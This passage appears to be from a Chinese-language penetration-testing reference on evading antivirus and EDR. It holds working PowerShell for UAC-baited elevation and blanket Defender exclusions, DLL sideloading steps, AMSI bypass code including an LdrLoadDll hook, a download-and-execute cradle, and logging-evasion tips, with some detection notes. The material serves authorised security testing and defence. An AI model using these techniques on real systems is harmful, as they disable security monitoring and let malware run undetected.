

# 杀毒软件 (AV) 绕过

{{#include ../banners/hacktricks-training.md}}

**本页面最初由** [**@m2rc_p**](https://twitter.com/m2rc_p)**撰写！**

## 停止 Defender

- [defendnot](https://github.com/es3n1n/defendnot)：用于阻止 Windows Defender 运行的工具。
- [no-defender](https://github.com/es3n1n/no-defender)：通过伪装成其他 AV 来阻止 Windows Defender 运行的工具。
- [如果你是管理员，则禁用 Defender](basic-powershell-for-pentesters/README.md)

### 篡改 Defender 前以安装程序为幌子诱导 UAC 提权

公开的 loader 常伪装成游戏外挂，采用未签名的 Node.js/Nexe 安装程序，并且会先**请求用户提升权限**，然后才削弱 Defender。流程很简单：

1. 使用 `net session` 检查是否处于管理员上下文中。只有调用者拥有管理员权限时，该命令才会成功，因此命令失败意味着 loader 正以标准用户身份运行。
2. 立即使用 `RunAs` 动词重新启动自身，以触发预期的 UAC 同意提示，同时保留原始命令行。

```powershell
if (-not (net session 2>$null)) {
    powershell -WindowStyle Hidden -Command "Start-Process cmd.exe -Verb RunAs -WindowStyle Hidden -ArgumentList '/c ""`<path_to_loader`>""'"
    exit
}
```

受害者本来就相信自己正在安装“破解”软件，因此通常会接受提示，授予恶意软件更改 Defender 策略所需的权限。<sup>[[26]](#references)</sup>

### 对每个盘符设置全面的 `MpPreference` 排除项

获得提升的权限后，GachiLoader 风格的攻击链会尽可能扩大 Defender 的盲区，而不是直接禁用服务。加载器首先终止 GUI 看门狗（`taskkill /F /IM SecHealthUI.exe`），随后添加**范围极广的排除项**，使每个用户配置文件、系统目录和可移动磁盘都无法被扫描：

```powershell
$targets = @('C:\Users\', 'C:\ProgramData\', 'C:\Windows\')
Get-PSDrive -PSProvider FileSystem | ForEach-Object { $targets += $_.Root }
$targets | Sort-Object -Unique | ForEach-Object { Add-MpPreference -ExclusionPath $_ }
Add-MpPreference -ExclusionExtension '.sys'
```

关键观察：

- 循环会遍历每个已挂载的文件系统（D:\、E:\、USB 存储设备等），因此**之后放到磁盘任何位置的 payload 都会被忽略**。
- 排除 `.sys` 扩展名是未雨绸缪——攻击者保留了之后加载未签名驱动程序的选项，而无需再次触碰 Defender。
- 所有更改都写入 `HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions`，后续阶段可以确认这些排除项仍然有效，或扩展它们，而不会再次触发 UAC。

由于没有停止任何 Defender 服务，简单的运行状况检查仍会报告“antivirus active”，尽管实时检查实际上不会触及这些路径。<sup>[[26]](#references)</sup>

## **AV Evasion 方法论**

目前，AV 使用不同的方法来检查文件是否恶意，包括静态检测、动态分析，以及更高级的 EDR 所使用的行为分析。

### **静态检测**

静态检测通过标记二进制文件或脚本中已知的恶意字符串或字节数组来实现，也会提取文件本身的信息（例如文件描述、公司名称、数字签名、图标、校验和等）。这意味着，使用已知的公开工具更容易被发现，因为它们很可能已被分析并标记为恶意。绕过这类检测有几种方法：

- **加密**

如果对二进制文件进行加密，AV 就无法检测到你的程序，但你需要某种 loader 来解密并在内存中运行该程序。

- **混淆**

有时，只需更改二进制文件或脚本中的一些字符串，就能绕过 AV 检测，但具体耗时取决于你要混淆的内容。

- **自定义工具**

如果你开发自己的工具，就不会存在已知的恶意签名，但这需要投入大量时间和精力。

> [!TIP]
> 检查 Windows Defender 静态检测的一个好方法是使用 [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck)。它会将文件拆分为多个片段，然后让 Defender 分别扫描每个片段，这样就能准确指出二进制文件中哪些字符串或字节被标记了。

我强烈建议你查看这个关于实用 AV Evasion 的 [YouTube 播放列表](https://www.youtube.com/playlist?list=PLj05gPj8rk_pkb12mDe4PgYZ5qPxhGKGf)。

### 针对静态分类器的离线 PE 特征测试

打包或加密后的 payload 字节只是静态分类器的输入之一。EMBER2024 会提取 PE 特征，包括导入、导出、节、头部和 Authenticode 数据。<sup>[[48]](#references)</sup> 在一项 loader 实验中，添加 141 个看似无害的导入，使 EMBER2024 的恶意评分降低了 93%，而与恶意软件相关的导入则提高了评分。这只是该模型和这些样本的实验结果，并不能可靠地绕过特定 AV/EDR 产品。<sup>[[50]](#references)</sup>

进行经授权的 loader 测试时，保持 payload 和执行路径不变，每个变体只更改一个预期的构建变量，并离线比较评分。检查生成的 PE 特征，因为构建更改可能影响多个特征组。<sup>[[49]](#references)[[50]](#references)</sup> 若要将预期导入保留在 IAT 中，请在可达代码中调用选定的 Win32 API。应更改 API 选择，并在不同构建版本间分散调用点，而不是创建一个固定的伪装函数，以免它成为签名。实验还报告称，有效的代码签名、导出条目，以及增加 `.pdata` 大小的更多函数都能降低评分；无效签名影响很小，`.pdata` 的影响也较小。<sup>[[50]](#references)</sup>

`thrember` 包提供特征提取和基准模型。安装后，使用 `thrember.download_models("models")`，并确保 `models` 目录已存在；然后从其父目录运行评分器：下载辅助函数会更改当前工作目录。PE 分类器可以对一个目录中的多个构建版本评分，而无需将它们提交给扫描服务：<sup>[[48]](#references)</sup>

```python
from pathlib import Path
import lightgbm as lgb
import thrember

model = lgb.Booster(model_file="models/EMBER2024_PE.model")
for sample in sorted(Path("builds").glob("*.exe")):
    print(sample, thrember.predict_sample(model, sample.read_bytes()))
```

比较时请固定模型和 feature-extractor 版本。离线分数降低只能说明该分类器对变更后的二进制文件作出了不同反应；这并不能证明你绕过了行为分析、仿真或供应商使用的其他模型。<sup>[[49]](#references)[[50]](#references)</sup> 关于[虚拟化 payload 中的逐构建多态和外层二进制伪装](virtualized-payload-execution.md#camouflaging-the-outer-go-executable)，请参阅单独的执行模型。

### **Dynamic analysis**

Dynamic analysis 是指 AV 在 sandbox 中运行你的二进制文件，并监视恶意活动（例如尝试解密并读取浏览器密码、对 LSASS 执行 minidump 等）。这部分可能会更难处理一些，但你可以通过以下方法尝试绕过 sandbox。

- **执行前休眠** 根据具体实现方式，这可能是绕过 AV dynamic analysis 的有效方法。AV 扫描文件的时间非常短，以免打断用户的工作流程，因此长时间休眠可能会干扰对二进制文件的分析。问题在于，许多 AV sandbox 可以根据具体实现方式跳过休眠。
- **检查机器资源** 通常，Sandbox 可用的资源很少（例如 < 2GB RAM），否则可能会拖慢用户的机器。你还可以发挥创意，例如检查 CPU 温度甚至风扇转速；Sandbox 不一定会实现所有这些功能。
- **针对特定机器的检查** 如果你想将目标设为工作站已加入 "contoso.local" 域的用户，可以检查计算机的域名是否与你指定的域名匹配；如果不匹配，就让程序退出。

事实证明，Microsoft Defender 的 Sandbox 计算机名是 HAL9TH。因此，你可以在 malware 引爆前检查计算机名；如果名称为 HAL9TH，就说明你位于 Defender 的 Sandbox 中，此时可以让程序退出。

<figure><figcaption><p>来源：<a href="https://youtu.be/StSLxFbVz0M?t=1439">https://youtu.be/StSLxFbVz0M?t=1439</a></p></figcaption></figure>

以下是 [@mgeeky](https://twitter.com/mariuszbit) 提供的一些应对 Sandbox 的实用技巧：

<figure><figcaption><p><a href="https://discord.com/servers/red-team-vx-community-1012733841229746240">Red Team VX Discord</a> #malware-dev 频道</p></figcaption></figure>

正如我们在本文前面所说，**公共工具**最终都会**被检测到**，所以你应该问自己一个问题：

例如，如果你想 dump LSASS，**真的有必要使用 mimikatz 吗**？或者，能否使用另一个不那么知名、同样可以 dump LSASS 的项目？

后一种可能才是正确选择。以 mimikatz 为例，它可能是 AV 和 EDR 标记最多的 malware 之一。这个项目本身非常出色，但要用它绕过 AV 却十分棘手，所以只需针对你想实现的目标寻找替代方案。

> [!TIP]
> 修改 payload 以进行规避时，请确保在 Defender 中**关闭自动样本提交**。此外，如果你的长期目标是实现规避，请务必**不要上传到 VIRUSTOTAL**。如果你想检查某个 AV 是否会检测到你的 payload，请在 VM 上安装该 AV，尝试关闭自动样本提交，然后在那里进行测试，直到对结果满意为止。

## EXEs vs DLLs

只要条件允许，就应始终**优先使用 DLL 进行规避**。根据我的经验，DLL 文件通常**更不容易被检测和分析**，因此在某些情况下，这是避免检测的一个简单技巧（当然，前提是你的 payload 能以 DLL 的形式运行）。

如图所示，Havoc 的 DLL Payload 在 antiscan.me 上的检测率为 4/26，而 EXE payload 的检测率为 7/26。

<figure><figcaption><p>antiscan.me 上普通 Havoc EXE payload 与普通 Havoc DLL 的对比</p></figcaption></figure>

下面介绍一些可以利用 DLL 文件提高隐蔽性的技巧。

## DLL Sideloading & Proxying

**DLL Sideloading** 利用 loader 使用的 DLL 搜索顺序，将受害者应用程序和恶意 payload 放置在同一目录中。

你可以使用 [Siofra](https://github.com/Cybereason/siofra) 和以下 PowerShell 脚本查找容易受到 DLL Sideloading 影响的程序：

```bash
Get-ChildItem -Path "C:\Program Files\" -Filter *.exe -Recurse -File -Name| ForEach-Object {
    $binarytoCheck = "C:\Program Files\" + $_
    C:\Users\user\Desktop\Siofra64.exe --mode file-scan --enum-dependency --dll-hijack -f $binarytoCheck
}
```

此命令将输出 `"C:\Program Files\\"` 中易受 DLL hijacking 影响的程序列表，以及它们尝试加载的 DLL 文件。

我强烈建议你**亲自探索可进行 DLL Hijacking/Sideloading 的程序**。如果操作得当，这种技术相当隐蔽；但如果使用公开已知的可进行 DLL Sideloading 的程序，你可能很容易被发现。

仅仅放置一个名称与程序预期加载的 DLL 相同的恶意 DLL，并不会加载你的 payload，因为程序预期该 DLL 中包含特定函数。为了解决这个问题，我们将使用另一种称为 **DLL Proxying/Forwarding** 的技术。

**DLL Proxying** 会将程序发出的调用从代理（恶意）DLL 转发到原始 DLL，从而保留程序的功能，同时也能执行你的 payload。

我将使用 [@flangvik](https://twitter.com/Flangvik/) 的 [SharpDLLProxy](https://github.com/Flangvik/SharpDllProxy) 项目。

以下是我采用的步骤：

```
1. Find an application vulnerable to DLL Sideloading (siofra or using Process Hacker)
2. Generate some shellcode (I used Havoc C2)
3. (Optional) Encode your shellcode using Shikata Ga Nai (https://github.com/EgeBalci/sgn)
4. Use SharpDLLProxy to create the proxy dll (.\SharpDllProxy.exe --dll .\mimeTools.dll --payload .\demon.bin)
```

最后一条命令会生成 2 个文件：DLL 源代码模板，以及重命名后的原始 DLL。

<figure><figcaption></figcaption></figure>

```
5. Create a new visual studio project (C++ DLL), paste the code generated by SharpDLLProxy (Under output_dllname/dllname_pragma.c) and compile. Now you should have a proxy dll which will load the shellcode you've specified and also forward any calls to the original DLL.
```

这些是结果：

<figure><figcaption></figcaption></figure>

我们的 shellcode（使用 [SGN](https://github.com/EgeBalci/sgn) 编码）和 proxy DLL 在 [antiscan.me](https://antiscan.me) 上的 Detection rate 都是 0/26！我认为这算是成功。

<figure><figcaption></figcaption></figure>

> [!TIP]
> 我**强烈建议**你观看 [S3cur3Th1sSh1t 的 twitch VOD](https://www.twitch.tv/videos/1644171543)，了解 DLL Sideloading；也可以观看 [ippsec 的视频](https://www.youtube.com/watch?v=3eROsG_WNpE)，深入了解我们讨论的内容。

### 滥用转发导出（ForwardSideLoading）

Windows PE 模块可以导出实际为“转发器”的函数：导出条目不指向代码，而是包含形如 `TargetDll.TargetFunc` 的 ASCII 字符串。当调用者解析该导出时，Windows loader 将：

- 如果 `TargetDll` 尚未加载，则加载它
- 从中解析 `TargetFunc`

需要了解的关键行为：
- 如果 `TargetDll` 是 KnownDLL，则会从受保护的 KnownDLLs 命名空间提供该模块（例如 ntdll、kernelbase、ole32）。<sup>[[15]](#references)</sup>
- 如果 `TargetDll` 不是 KnownDLL，则会使用常规 DLL 搜索顺序，其中包括执行转发解析的模块所在目录。

这提供了一种间接的 sideloading 原语：找到一个将函数转发到非 KnownDLL 模块名称的签名 DLL，然后将该签名 DLL 与一个由攻击者控制、名称恰好与被转发目标模块相同的 DLL 放在同一目录中。当调用被转发的导出时，loader 会解析该转发并从同一目录加载你的 DLL，从而执行你的 DllMain。<sup>[[13]](#references)</sup>

在 Windows 11 上观察到的示例：

```
keyiso.dll KeyIsoSetAuditingInterface -> NCRYPTPROV.SetAuditingInterface
```

`NCRYPTPROV.dll` 不是 KnownDLL，因此会按照常规搜索顺序进行解析。

PoC（复制粘贴）：
1) 将已签名的系统 DLL 复制到可写文件夹
```
copy C:\Windows\System32\keyiso.dll C:\test\
```
2) 在同一文件夹中放置一个恶意的 `NCRYPTPROV.dll`。最简的 DllMain 就足以实现 code execution；无需实现转发函数即可触发 DllMain。
```c
// x64: x86_64-w64-mingw32-gcc -shared -o NCRYPTPROV.dll ncryptprov.c
#include <windows.h>
BOOL WINAPI DllMain(HINSTANCE hinst, DWORD reason, LPVOID reserved){
    if (reason == DLL_PROCESS_ATTACH){
        HANDLE h = CreateFileA("C\\\\test\\\\DLLMain_64_DLL_PROCESS_ATTACH.txt", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
        if(h!=INVALID_HANDLE_VALUE){ const char *m = "hello"; DWORD w; WriteFile(h,m,5,&w,NULL); CloseHandle(h);}        
    }
    return TRUE;
}
```
3) 使用经过签名的 LOLBin 触发转发操作：
```
rundll32.exe C:\test\keyiso.dll, KeyIsoSetAuditingInterface
```

Observed behavior:
- rundll32（signed）加载 side-by-side 的 `keyiso.dll`（signed）
- 解析 `KeyIsoSetAuditingInterface` 时，loader 会跟随转发到 `NCRYPTPROV.SetAuditingInterface`
- 随后，loader 从 `C:\test` 加载 `NCRYPTPROV.dll` 并执行其 `DllMain`
- 如果未实现 `SetAuditingInterface`，则只有在 `DllMain` 已运行后，才会出现“missing API”错误

Hunting tips:
- 重点关注目标模块不是 KnownDLL 的转发导出。KnownDLL 列在 `HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs` 下。
- 可以使用以下工具枚举转发导出：
```
dumpbin /exports C:\Windows\System32\keyiso.dll
# forwarders appear with a forwarder string e.g., NCRYPTPROV.SetAuditingInterface
```
- 查看 Windows 11 forwarder 清单以搜索候选项：https://hexacorn.com/d/apis_fwd.txt<sup>[[14]](#references)</sup>

检测/防御思路：
- 监控 LOLBins（例如 rundll32.exe）从非系统路径加载已签名 DLL，随后从该目录加载具有相同基名称的非 KnownDLLs
- 对以下进程/模块链发出警报：`rundll32.exe` → 非系统 `keyiso.dll` → 用户可写路径下的 `NCRYPTPROV.dll`
- 强制执行代码完整性策略（WDAC/AppLocker），并禁止在应用程序目录中同时写入和执行

## [**Freeze**](https://github.com/optiv/Freeze)

`Freeze is a payload toolkit for bypassing EDRs using suspended processes, direct syscalls, and alternative execution methods`

你可以使用 Freeze 以隐蔽的方式加载并执行 shellcode。

```
Git clone the Freeze repo and build it (git clone https://github.com/optiv/Freeze.git && cd Freeze && go build Freeze.go)
1. Generate some shellcode, in this case I used Havoc C2.
2. ./Freeze -I demon.bin -encrypt -O demon.exe
3. Profit, no alerts from defender
```

<figure><figcaption></figcaption></figure>

> [!TIP]
> Evasion 就像猫鼠游戏，今天有效的方法明天可能就会被检测到，因此不要只依赖一种工具；如果可能，尝试串联多种 evasion techniques。

## Direct/Indirect Syscalls & SSN 解析（SysWhispers4）

EDR 通常会在 `ntdll.dll` 的 syscall stub 上设置 **user-mode inline hooks**。要绕过这些 hooks，可以生成 **direct** 或 **indirect** syscall stub，以加载正确的 **SSN**（System Service Number），并在不执行被 hook 的导出入口点的情况下切换到 kernel mode。<sup>[[32]](#references)</sup>

**调用选项：**
- **Direct (embedded)**：在生成的 stub 中发出 `syscall`/`sysenter`/`SVC #0` 指令（不会命中 `ntdll` 导出）。
- **Indirect**：跳转到 `ntdll` 中现有的 `syscall` gadget，使 kernel transition 看起来像是从 `ntdll` 发起的（有助于绕过启发式检测）；**randomized indirect** 会在每次调用时从 gadget 池中选取一个 gadget。
- **Egg-hunt**：避免在磁盘上嵌入静态的 `0F 05` opcode 序列；在运行时解析 syscall 序列。

**抗 hook 的 SSN 解析策略：**
- **FreshyCalls (VA sort)**：通过按虚拟地址对 syscall stub 排序来推断 SSN，而不是读取 stub 字节。
- **SyscallsFromDisk**：映射干净的 `\KnownDlls\ntdll.dll`，从其 `.text` 中读取 SSN，然后取消映射（绕过所有内存中的 hooks）。
- **RecycledGate**：结合基于 VA 排序的 SSN 推断和 opcode 验证；如果 stub 干净则进行验证，如果被 hook，则回退到 VA 推断。
- **HW Breakpoint**：在 `syscall` 指令上设置 DR0，并使用 VEH 在运行时从 `EAX` 捕获 SSN，而无需解析被 hook 的字节。

SysWhispers4 使用示例：
```bash
# Indirect syscalls + hook-resistant resolution
python syswhispers.py --preset injection --method indirect --resolve recycled

# Resolve SSNs from a clean on-disk ntdll
python syswhispers.py --preset injection --method indirect --resolve from_disk --unhook-ntdll

# Hardware breakpoint SSN extraction
python syswhispers.py --functions NtAllocateVirtualMemory,NtCreateThreadEx --resolve hw_breakpoint
```

解析干净的 x64 `ntdll` syscall 导出以获取 SSN 时，应同时支持 `4C 8B D1 B8`（`mov r10, rcx; mov eax, imm32`）以及前面带有 `F3 0F 1E FA`（`endbr64`）的相同序列。后者是带有 CET 前缀的 stub：如果解析器假设 SSN 总是在一个固定偏移处，就会漏掉它。如果 indirect-syscall 初始化失败，加载器会回退到 `GetProcAddress`，通过这些导出的函数调用可能再次遇到 user-mode hooks。<sup>[[54]](#references)</sup>

### `tprtdll.dll` 中的备用 syscall 导出

该项目报告称，`tprtdll.dll` 是一个 Microsoft 签名 DLL，在 Windows 11 build 26100 及更高版本的 `C:\Windows\System32\` 中存在。它的代码地址与 `ntdll.dll` 不同，因此，只修补 `ntdll` syscall 入口点的 hook 不会修补对应的 `tprtdll` stub。与上述 SSN 解析方法不同，此方法会加载 `tprtdll.dll`，并通过 `GetProcAddress` 直接调用其中可用的 `Nt*` 或 `Zw*` 导出。请检查 DLL 和所需导出是否存在，并使用相应的 NT 函数原型。<sup>[[55]](#references)</sup>

self-injection PoC 使用 `tprtdll!NtAllocateVirtualMemoryEx` 分配 RW 内存，通过 `memcpy` 复制字节，使用 `tprtdll!ZwProtectVirtualMemory` 将区域改为 RX，并通过 `tprtdll!RtlCreateUserThread` 启动线程。<sup>[[56]](#references)</sup> 跨进程版本需要一个可访问的目标进程句柄，并使用 `WriteProcessMemory` 进行复制。<sup>[[57]](#references)</sup> 项目的导出清单中没有 `NtOpenProcess`、`NtWriteVirtualMemory` 和 `NtCreateThreadEx`，因此并非每个注入操作都能使用备用导出。<sup>[[55]](#references)</sup>

该 PoC 并未证明 `RtlCreateUserThread` 是 direct syscall stub，也未证明仅仅因为从 `tprtdll` 解析了该导出，其内部调用就能避开 `ntdll` hooks。<sup>[[56]](#references)</sup> 跨进程示例还嵌入了在 injector 中解析出的 `WinExec` 和 `ExitThread` 地址；要使示例中的 payload 正常工作，这些地址必须在目标进程中有效。<sup>[[57]](#references)</sup>

此方法只能绕过仅作用于对应 `ntdll` 导出的 hooks；它无法让 syscall 逃过 kernel-level monitoring。<sup>[[55]](#references)</sup> 若要了解一种避免远程写入和创建新线程的注入路径，请参阅 [Thread Name-Calling and Waiting Thread Hijacking](windows-process-injection-thread-name-calling-waiting-thread-hijacking.md)。

## AMSI (Anti-Malware Scan Interface)

AMSI 的创建初衷是防止“[fileless malware](https://en.wikipedia.org/wiki/Fileless_malware)”。最初，AV 只能扫描**磁盘上的文件**，因此，如果能以某种方式**直接在内存中**执行 payload，AV 就无法阻止，因为它没有足够的可见性。

AMSI 功能已集成到以下 Windows 组件中。

- User Account Control，即 UAC（EXE、COM、MSI 或 ActiveX 安装的提权）
- PowerShell（脚本、交互式使用和动态代码求值）
- Windows Script Host（wscript.exe 和 cscript.exe）
- JavaScript 和 VBScript
- Office VBA macros

它使 antivirus 解决方案能够以未加密且未混淆的形式查看脚本内容，从而检查脚本行为。

运行 `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')` 会在 Windows Defender 上触发以下警报。

<figure><figcaption></figcaption></figure>

请注意，它会在前面加上 `amsi:`，然后附上运行脚本的可执行文件路径；本例中是 powershell.exe。

我们没有将任何文件写入磁盘，但仍然因为 AMSI 而在内存中被检测到。

此外，从 **.NET 4.8** 开始，C# 代码也会经过 AMSI 检查。这甚至会影响用于加载内存中执行内容的 `Assembly.Load(byte[])`。因此，如果想在内存中执行并规避 AMSI，建议使用较低版本的 .NET（例如 4.7.2 或更低版本）。

绕过 AMSI 有几种方法：

- **Obfuscation**

由于 AMSI 主要依赖静态检测，因此修改要加载的脚本可能是规避检测的好方法。

不过，AMSI 能够对脚本进行反混淆，即使脚本经过多层混淆，因此，具体做法不当时，混淆可能并不是好选择。这使得规避检测并非那么简单。不过，有时只需更改几个变量名就能成功，因此具体取决于某个内容被标记的程度。

- **AMSI Bypass**

由于 AMSI 是通过将 DLL 加载到 powershell（以及 cscript.exe、wscript.exe 等）进程中实现的，因此即使以非特权用户身份运行，也很容易对其进行篡改。由于 AMSI 实现中的这一缺陷，研究人员发现了多种规避 AMSI 扫描的方法。

**强制触发错误**

强制 AMSI 初始化失败（amsiInitFailed）会导致当前进程不再启动扫描。最初由 [Matt Graeber](https://twitter.com/mattifestation) 披露此方法，之后 Microsoft 开发了一个签名来阻止其被广泛使用。

```bash
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

只需一行 PowerShell 代码，就能让当前 PowerShell 进程中的 AMSI 失效。当然，AMSI 本身已将这行代码标记出来，因此需要进行一些修改才能使用此技术。

以下是我从这个 [Github Gist](https://gist.github.com/r00t-3xp10it/a0c6a368769eec3d3255d4814802b5db) 获取的修改版 AMSI bypass。

```bash
Try{#Ams1 bypass technic nº 2
      $Xdatabase = 'Utils';$Homedrive = 'si'
      $ComponentDeviceId = "N`onP" + "ubl`ic" -join ''
      $DiskMgr = 'Syst+@.M£n£g' + 'e@+nt.Auto@' + '£tion.A' -join ''
      $fdx = '@ms' + '£In£' + 'tF@£' + 'l+d' -Join '';Start-Sleep -Milliseconds 300
      $CleanUp = $DiskMgr.Replace('@','m').Replace('£','a').Replace('+','e')
      $Rawdata = $fdx.Replace('@','a').Replace('£','i').Replace('+','e')
      $SDcleanup = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $CleanUp,$Homedrive,$Xdatabase))
      $Spotfix = $SDcleanup.GetField($Rawdata,"$ComponentDeviceId,Static")
      $Spotfix.SetValue($null,$true)
   }Catch{Throw $_}
```

请记住，这篇文章发布后很可能会被标记，因此如果你的计划是保持隐蔽，就不应该发布任何代码。

**Memory Patching**

该技术最初由 [@RastaMouse](https://twitter.com/_RastaMouse/) 发现。它通过在 amsi.dll 中查找 "AmsiScanBuffer" 函数的地址（该函数负责扫描用户提供的输入），并将其覆写为返回 E_INVALIDARG 代码的指令。这样，实际扫描的结果就会返回 0，该值会被解释为干净结果。

> [!TIP]
> 请阅读 [https://rastamouse.me/memory-patching-amsi-bypass/](https://rastamouse.me/memory-patching-amsi-bypass/)，了解更详细的说明。

还有许多其他用于通过 powershell 绕过 AMSI 的技术，请查看[**此页面**](basic-powershell-for-pentesters/index.html#amsi-bypass)和[**此仓库**](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)了解更多信息。

### AMSI COM scan-pointer 重定向，而非修补 `AmsiScanBuffer`

另一种进程内绕过方式不会触碰 `AmsiScanBuffer` 入口点。在报告的 64 位 .NET loader 中，系统会通过 CLSID `fdb00e52-a214-4aa1-8fba-4357bb0072ec` 创建一个 AMSI COM object；`Marshal.GetIUnknownForObject()` 会返回接口指针，其偏移 `0x18` 处的 vtable 槽位会被用作扫描调用目标。loader 会将 `Console.Clear()` 的 native pointer 修补为一段小型 x64 stub，在 `VirtualProtect()` 下将该 vtable 条目改为指向 stub，然后恢复原始页面保护属性。此方法依赖 64 位指针宽度和预期的 COM 布局；这并非适用于任意 AMSI 接口或构建版本的通用偏移。先前观察到的阶段包括[signed AppDomainManager sidecar loading](windows-local-privilege-escalation/dll-hijacking/#signed-appdomainmanager-type-as-a-configuration-file-gadget)和[RESX deserialization](../pentesting-web/deserialization/basic-.net-deserialization-objectdataprovider-gadgets-expandedwrapper-and-json.net.md#resx-resource-parsing-to-binaryformatter-and-xaml)。<sup>[[51]](#references)</sup>

观察到的 stub 字节为 `41 C7 00 01 00 00 00 33 C0 C3`：它会向 `r8` 中的结果指针写入 **1**，并在 `eax` 中返回 **0**。因此，报告中声称扫描结果为 `AMSI_RESULT_CLEAN`（0）的说法，混淆了 `S_OK` 返回值与输出枚举值。在文档所列的 `AMSI_RESULT` 顺序中，结果 **1** 是 `AMSI_RESULT_NOT_DETECTED`；它仍低于检测阈值。<sup>[[51]](#references)[[52]](#references)[[53]](#references)</sup>

### 通过阻止 amsi.dll 加载来阻断 AMSI（LdrLoadDll hook）

只有在 `amsi.dll` 加载到当前进程后，AMSI 才会初始化。一种稳健且与语言无关的绕过方式，是在 `ntdll!LdrLoadDll` 上设置 user-mode hook；当请求的模块是 `amsi.dll` 时，hook 会返回错误。这样一来，AMSI 就不会加载，该进程也不会进行任何扫描。<sup>[[23]](#references)</sup>

实现概要（x64 C/C++ 伪代码）：
```c
#include <windows.h>
#include <winternl.h>

typedef NTSTATUS (NTAPI *pLdrLoadDll)(PWSTR, ULONG, PUNICODE_STRING, PHANDLE);
static pLdrLoadDll realLdrLoadDll;

NTSTATUS NTAPI Hook_LdrLoadDll(PWSTR path, ULONG flags, PUNICODE_STRING module, PHANDLE handle){
    if (module && module->Buffer){
        UNICODE_STRING amsi; RtlInitUnicodeString(&amsi, L"amsi.dll");
        if (RtlEqualUnicodeString(module, &amsi, TRUE)){
            // Pretend the DLL cannot be found → AMSI never initialises in this process
            return STATUS_DLL_NOT_FOUND; // 0xC0000135
        }
    }
    return realLdrLoadDll(path, flags, module, handle);
}

void InstallHook(){
    HMODULE ntdll = GetModuleHandleW(L"ntdll.dll");
    realLdrLoadDll = (pLdrLoadDll)GetProcAddress(ntdll, "LdrLoadDll");
    // Apply inline trampoline or IAT patching to redirect to Hook_LdrLoadDll
    // e.g., Microsoft Detours / MinHook / custom 14‑byte jmp thunk
}
```
备注
- 适用于 PowerShell、WScript/CScript 和自定义 loader（任何原本会加载 AMSI 的程序）。
- 配合通过 stdin 输入脚本使用（`PowerShell.exe -NoProfile -NonInteractive -Command -`），以避免留下过长的命令行痕迹。
- 曾用于通过 LOLBins 执行的 loader（例如由 `regsvr32` 调用 `DllRegisterServer`）。

工具 **[https://github.com/Flangvik/AMSI.fail](https://github.com/Flangvik/AMSI.fail)** 也可以生成用于绕过 AMSI 的脚本。
工具 **[https://amsibypass.com/](https://amsibypass.com/)** 也可以生成用于绕过 AMSI 的脚本；它通过随机化用户定义的函数、变量和字符表达式来避免特征匹配，并随机改变 PowerShell 关键字的字符大小写以规避特征匹配。

**移除检测到的特征码**

你可以使用 **[https://github.com/cobbr/PSAmsi](https://github.com/cobbr/PSAmsi)** 和 **[https://github.com/RythmStick/AMSITrigger](https://github.com/RythmStick/AMSITrigger)** 等工具，从当前进程的内存中移除检测到的 AMSI 特征码。这些工具通过扫描当前进程的内存来查找 AMSI 特征码，然后用 NOP 指令覆盖它，从而将其从内存中移除。

**使用 AMSI 的 AV/EDR 产品**

你可以在 **[https://github.com/subat0mik/whoamsi](https://github.com/subat0mik/whoamsi)** 找到使用 AMSI 的 AV/EDR 产品列表。

**使用 PowerShell 2 版本**
如果使用 PowerShell 2 版本，AMSI 将不会加载，因此你可以运行脚本而不受 AMSI 扫描。操作如下：

```bash
powershell.exe -version 2
```

## PS Logging

PowerShell logging 是一项功能，可记录系统上执行的所有 PowerShell 命令。这对于审计和故障排除很有用，但对于**想要逃避检测的攻击者来说，这也可能是个问题**。

要绕过 PowerShell logging，可以使用以下技术：

- **禁用 PowerShell Transcription 和 Module Logging**：可以使用 [https://github.com/leechristensen/Random/blob/master/CSharp/DisablePSLogging.cs](https://github.com/leechristensen/Random/blob/master/CSharp/DisablePSLogging.cs) 等工具来实现。
- **使用 Powershell version 2**：如果使用 PowerShell version 2，AMSI 将不会加载，因此可以运行脚本而不被 AMSI 扫描。可以这样做：`powershell.exe -version 2`
- **使用 unmanaged PowerShell session**：使用 [UnmanagedPowerShell](https://github.com/leechristensen/UnmanagedPowerShell) 托管 PowerShell，而不启动 `powershell.exe`（Cobalt Strike 的 `powerpick` 使用了这种方式）。这可以绕过专门针对 `powershell.exe` 进程的控制，但并不会自动禁用 AMSI、Script Block Logging 或其他所有 PowerShell 防御；实际覆盖范围取决于 runtime 和 host 的实现方式。


## 混淆

> [!TIP]
> 几种混淆技术依赖于加密数据，这会增加二进制文件的熵，从而让 AV 和 EDR 更容易检测到它。请谨慎使用，也可以只对代码中敏感或需要隐藏的特定部分进行加密。

### 对受 ConfuserEx 保护的 .NET 二进制文件进行反混淆

分析使用 ConfuserEx 2（或商业分支版本）的恶意软件时，通常会遇到多层保护，导致反编译器和沙箱无法正常工作。以下工作流程可以可靠地**还原出接近原始状态的 IL**，之后便可使用 dnSpy 或 ILSpy 等工具将其反编译为 C#。<sup>[[10]](#references)</sup>

